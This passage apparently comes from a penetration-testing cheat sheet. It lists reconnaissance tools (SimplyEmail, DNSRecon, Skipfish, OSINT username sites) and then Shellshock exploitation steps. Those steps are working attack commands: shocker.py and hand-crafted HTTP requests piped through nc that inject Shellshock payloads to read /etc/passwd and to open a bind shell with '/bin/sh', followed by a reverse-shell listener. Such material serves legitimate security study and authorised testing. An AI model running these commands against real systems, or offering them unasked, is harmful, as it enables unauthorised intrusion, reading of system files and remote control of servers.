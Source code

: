     ```
    git clone https://github.com/killswitch-GUI/SimplyEmail.git
    ./SimplyEmail.py -all -e TARGET-DOMAIN
    ```

- DNSRecon - DNS Bruteforce

    ```bash
    dnsrecon -d TARGET -D /usr/share/wordlists/dnsmap.txt -t std --xml ouput.xml
    ```

- Skipfish - prepares an interactive sitemap for the targeted site

    ```bash
    # basic scan
    skipfish -o out_dir https://www.host.com
    # using cookies to access authenticated pages
    skipfish -o out_dir -I urls_to_scan -X urls_not_to_scan -C cookie1=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX -C cookie2=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX  https://www.host.com
    ```

- [namechk](https://namechk.com/) / [whatsmyname](https://whatsmyname.app/) / [namecheckup](https://namecheckup.com/) - OSINT use accounts around the web
- [maltego](https://sectools.org/tool/maltego/) - data mining application

- Exploiting Shellshock

    ```bash
    git clone https://github.com/nccgroup/shocker
    ```

    ```bash
    ./shocker.py -H TARGET --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose
    ```

    cat file (view file contents)

    ```bash
    echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc TARGET 80
    ```

    Shell Shock run bind shell

    ```bash
    echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc TARGET 80
    ```

    Shell Shock reverse Shell

    ```bash
    nc -l -p 443
    ```
